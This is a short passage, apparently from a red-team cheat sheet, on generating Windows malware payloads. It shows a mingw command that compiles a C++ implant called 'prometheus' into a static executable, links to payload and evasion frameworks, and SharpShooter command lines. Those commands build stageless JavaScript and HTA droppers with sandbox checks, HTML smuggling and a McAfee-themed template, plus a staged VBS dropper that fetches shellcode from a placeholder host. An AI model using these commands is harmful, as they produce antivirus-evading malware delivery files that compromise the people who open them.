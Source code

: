 ## C++ 

```bash
sudo apt-get install mingw-w64

i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc

```

# other tools

```bash
# Veil Framework:
https://github.com/Veil-Framework/Veil

# Shellter
https://www.shellterproject.com/download/

# Sharpshooter
# https://github.com/mdsecactivebreach/SharpShooter
# Javascript Payload Stageless: 
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload: 
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

# Donut: 
https://github.com/TheWover/donut

# Vulcan
https://github.com/praetorian-code/vulcan

```
